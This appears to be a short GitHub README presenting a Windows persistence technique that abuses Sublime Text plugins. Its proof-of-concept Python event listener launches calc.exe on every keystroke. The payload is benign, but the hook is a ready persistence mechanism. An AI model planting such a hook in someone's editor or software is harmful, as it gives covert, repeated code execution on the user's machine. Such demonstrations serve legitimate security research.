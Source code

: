 # Sublime-persistence
Windows persistence method that abuses sublime packages.

Sublime text allows the ability to create custom plugins written in python. 
An API reference is posted below.
https://www.sublimetext.com/docs/api_reference.html



```import sublime
import sublime_plugin
import subprocess


class OpenCalcOnModified(sublime_plugin.EventListener):
    def on_modified(self, view):
        subprocess.Popen('calc.exe', shell=True)```

In the above python script we define a class called 'OpenCalcOnModified' which invokes the on_modified function. 
When a keystroke is detected within the sublime text editor, the .POpen() method in the subproccess module executes calc.exe.  

![alt text](https://raw.githubusercontent.com.com/rootd4ddy/Sublime-persistence/sublime.png)


